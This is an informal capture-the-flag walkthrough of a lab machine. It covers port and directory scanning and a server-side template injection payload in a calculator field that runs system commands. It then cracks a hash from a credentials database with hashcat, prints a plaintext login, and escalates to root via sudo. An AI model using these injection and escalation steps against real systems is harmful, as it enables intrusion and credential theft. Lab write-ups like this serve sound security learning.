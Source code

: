Started a nmap scan 
```
22 OpenSSH 8.9p1
80 nginx
3000     ####maybe
```
Starting with a gobuster scan list `2.3-medmium` 
```
/about
/weighted-grade-calc
```
When looking at if `WEBrick 1.7.0` had any vulns and found a directory traversal vuln it took me to a error page if you look at the source code there is a reference to a local host running on port `3000`
Looking for SSTI in the calculator page after testing for a while it keep says malicious input but found after testing all the fields its in category1 has a SSTI I got it to ping back 
	`a<%=system("ping+-c1+ip");%>` 
after a while I found how to get a rev shell I had to put it in a sh file and have the server exacute it and the rev shell stayed and we are now the user `susan` I found a password hash in the 
	`/home/susan/Migration/pupilpath_credentials.db` 
We got some hash from this database and using hashcat we can crack the password with this
	`hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d` 
Can you this to login into ssh
	`susan:sudan_nasus_413759210` 
Now were in as susan and running sudo -l we can do anything so `sudo su root` and now were root